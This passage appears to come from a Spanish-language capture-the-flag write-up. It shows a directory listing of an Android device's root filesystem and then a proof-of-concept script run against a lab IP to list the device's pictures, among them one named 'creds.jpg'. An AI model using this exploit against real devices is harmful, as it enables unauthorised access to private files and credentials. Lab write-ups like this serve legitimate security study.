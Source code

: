 ```bash
{"name":"mnt", "time":"1/9/24 10:12:13 PM", "type":"folder", "size":"240.00 Bytes (240 Bytes)", }, 
{"name":"init.zygote64_32.rc", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"875.00 Bytes (875 Bytes)", }, 
{"name":"init.zygote32.rc", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"511.00 Bytes (511 Bytes)", }, 
{"name":"init.usb.rc", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"5.51 KB (5,646 Bytes)", }, 
{"name":"init.usb.configfs.rc", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"7.51 KB (7,690 Bytes)", }, 
{"name":"init.superuser.rc", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"582.00 Bytes (582 Bytes)", }, 
{"name":"init.rc", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"29.00 KB (29,697 Bytes)", }, 
{"name":"init.environ.rc", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"1.04 KB (1,064 Bytes)", }, 
{"name":"init.android_x86_64.rc", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"3.36 KB (3,439 Bytes)", }, 
{"name":"init", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"2.29 MB (2,401,264 Bytes)", }, 
{"name":"fstab.android_x86_64", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"753.00 Bytes (753 Bytes)", }, 
{"name":"etc", "time":"3/25/20 03:41:52 AM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"dev", "time":"1/9/24 10:12:14 PM", "type":"folder", "size":"2.64 KB (2,700 Bytes)", }, 
{"name":"default.prop", "time":"1/9/24 10:12:12 PM", "type":"file", "size":"1.09 KB (1,118 Bytes)", }, 
{"name":"data", "time":"3/15/21 04:49:09 PM", "type":"folder", "size":"4.00 KB (4,096 Bytes)", }, 
{"name":"d", "time":"1/9/24 10:12:12 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"config", "time":"1/9/24 10:12:13 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"charger", "time":"12/31/69 07:00:00 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"cache", "time":"1/9/24 10:12:13 PM", "type":"folder", "size":"120.00 Bytes (120 Bytes)", }, 
{"name":"bugreports", "time":"12/31/69 07:00:00 PM", "type":"file", "size":"0.00 Bytes (0 Bytes)", }, 
{"name":"bin", "time":"3/25/20 12:26:22 AM", "type":"folder", "size":"8.00 KB (8,192 Bytes)", }, 
{"name":"acct", "time":"1/9/24 10:12:12 PM", "type":"folder", "size":"0.00 Bytes (0 Bytes)", }
]
```
{: .nolineno}


Además de listar los archivos, también es posible eliminar las imágenes, revelando así información interesante en ellas con el siguiente comando:


```bash
python poc.py --cmd listPics --ip 10.10.10.247

[*] Executing command: listPics on 10.10.10.247
[*] Server responded with: 200

{"name":"concept.jpg", "time":"4/21/21 02:38:08 AM", "location":"/storage/emulated/0/DCIM/concept.jpg", "size":"135.33 KB (138,573 Bytes)", },
{"name":"anc.png", "time":"4/21/21 02:37:50 AM", "location":"/storage/emulated/0/DCIM/anc.png", "size":"6.24 KB (6,392 Bytes)", },
{"name":"creds.jpg", "time":"4/21/21 02:38:18 AM", "location":"/storage/emulated/0/DCIM/creds.jpg", "size":"1.14 MB (1,200,401 Bytes)", },
{"name":"224_anc.png", "time":"4/21/21 02:37:21 AM", "location":"/storage/emulated/0/DCIM/224_anc.png", "size":"124.88 KB (127,876 Bytes)"}
```
{: .nolineno}
